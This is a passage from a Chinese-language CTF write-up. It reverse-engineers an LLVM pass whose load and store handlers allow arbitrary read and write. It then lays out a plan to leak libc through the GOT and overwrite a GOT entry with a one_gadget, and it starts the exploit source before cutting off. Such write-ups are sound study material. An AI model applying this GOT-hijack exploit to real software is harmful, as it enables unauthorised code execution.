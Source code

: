 继续分析 sub_6AC0 函数：

![](https://image.xxxb.cn/blog/image-20240610110247186.png)

这段代码遍历所有函数，然后遍历每个函数的块并将每个块作为参数调用 sub_6B80 函数，继续跟进分析：

![](https://image.xxxb.cn/blog/image-20240610110445566.png)

对于 pop、push、store、load、add、min 函数调用会做出不同的处理，以 pop 为例：

```
if ( !strcmp(funcName, "pop") )
{
    if ( (unsigned int)llvm::CallBase::getNumOperands(callInstruction) == 2 )
    {
        ArgOperand = llvm::CallBase::getArgOperand(callInstruction, 0);
        v32 = 0LL;
        v31 = (llvm::ConstantInt *)llvm::dyn_cast(ArgOperand);
        if ( v31 )
        {
            ZExtValue = llvm::ConstantInt::getZExtValue(v31);
            if ( ZExtValue == 1 )
                v32 = off_20DFD0;
            if ( ZExtValue == 2 )
                v32 = off_20DFC0;
        }
        if ( v32 )
        {
            v3 = off_20DFD8;
            *v32 = *(_QWORD *)*off_20DFD8;
            *v3 = (char *)*v3 - 8;
        }
    }
} 
```

所有的函数第一个参数为 int 类型，值为 1 或 2，确定操作哪个全局变量。

这两个全局变量 1 和 2 中存储地址，因此是二级指针类型的变量。

对于 push 函数，实现压栈操作，将全局变量 i 的值压入栈中。

对于 pop 函数，实现弹栈操作，将栈顶元素弹出到全局变量 i 中。

对于 store 函数，实现任意地址写，将全局变量 i 指向的地址处的值赋值给全局变量 k。

对于 load 函数，实现任意地址读，将全局变量 i 存储的地址赋值给全局变量 k 指向的地址处。

对于 add 函数，实现加法操作。对于 min 函数，实现减法操作。

可以考虑通过任意地址读泄露 got 表中函数地址，以此泄露 libc 基地址。

然后通过 add、min 函数对其进行修改，再利用任意地址写劫持 got 表为 one_gadget。

exp 如下所示：

```
// clang-8 -emit-llvm -S exp.c -o exp.ll
void add(int num, long long val);
void min(int num, long long val);
void load(int num);
void store(int num);
 
void o0o0o0o0()
{
    add(1, 0x77e100);
    load(1);
    add(2, 0x4942e);
    // add(1, 0x870);
    min(1, 0x100);
```